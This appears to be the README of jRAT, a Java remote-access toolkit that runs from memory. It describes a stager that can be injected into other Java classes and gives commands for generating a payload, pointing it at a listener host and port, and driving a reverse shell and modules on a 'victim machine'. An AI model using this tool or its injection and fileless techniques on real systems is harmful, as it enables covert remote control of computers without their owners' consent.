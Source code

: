 # jRAT
Remote administration toolkit that runs from memory written in Java

- **Portable**
  - Runs on Windows, Linux, MacOS

- **Modular design**
  - Additional functionality can be added at runtime by loading additional modules, and the functionality of jRAT can be extended by developing new modules.

- **Runs from memory**
  - Only the initial stager is run from disk, the main payload (Stage) and any additional modules that are loaded are loaded and run using a class loader from memory. In case an additional module depends on shared libraries they are saved to a temporary file, loaded, and removed after loading.


This remote administration toolkit consists of a simple stager that can be injected into other Java clases, or used as a standalone payload.
By running the jRAT.jar without any parameters `java -jar jRAT.jar`, a standalone payload is created containing the main method that can be used for demonstration purposes, by providing it the server/listener address and port to connect to.


**Generating a standalone payload**

`java -jar jRAT.jar`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image1.png)

**Running a standalone payload**

`java -jar standaloner.jar <host> <port>`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image2.png)

**Starting a listener**

`java -jar jRAT.jar <port>`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image3.png)

After the client connects to the listener a shell will be presented, and a directory created for the victim machine in the current directory.
Directory name will be named based on the IP address of the victim machine.
By default jRAT works as a reverse shell and can be used to execute commands on the victim machine.
Additional functionality is provided by using the commands described below, which can be seen by using the `help` command:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image4.png)

The `modules` command can be used to view all the modules that can be loaded:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image5.png)

`load` command can be used to load a module, and after the module is loaded `show` command can be used to view all the available commands/methods in the module:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image6.png)

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image8.png)

`deps` command can be used to view all the dependencies (additional classes/JAR's) that were loaded during module loading:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image7.png)

OS commands can simply be run just as in a standard reverse shell:

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image9.png)

To run the command in a module use `run` command, followed by module name, command name, and any necessary parameters.
For example, shown below is an example of running the `exec` command in the `core` module:

`run core exec nmap -p10000 127.0.0.1`

![Screenshot](https://raw.github.com/wiki/FilipBlazekovic/jRAT/Images/Image10.png)
